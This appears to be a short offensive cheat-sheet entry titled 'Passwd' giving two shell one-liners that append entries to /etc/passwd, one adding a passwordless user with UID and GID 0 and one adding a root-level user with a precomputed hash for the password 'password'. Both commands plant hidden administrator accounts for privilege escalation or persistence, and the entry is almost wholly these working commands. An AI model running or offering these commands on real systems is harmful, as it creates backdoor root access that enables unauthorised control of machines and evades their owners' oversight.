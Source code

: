 # Passwd

## /etc/passwd make a new user with no password

`echo "hack::0:0:,,,:/root:/bin/sh" >> /etc/passwd`



Add a user with password as password

```text
echo "hacked:$1$oEEgii4t$lCiEbtmrRtb9RrwaeGwbu0:0:0:,,,:/root:/bin/sh" >> /etc/passwd
```

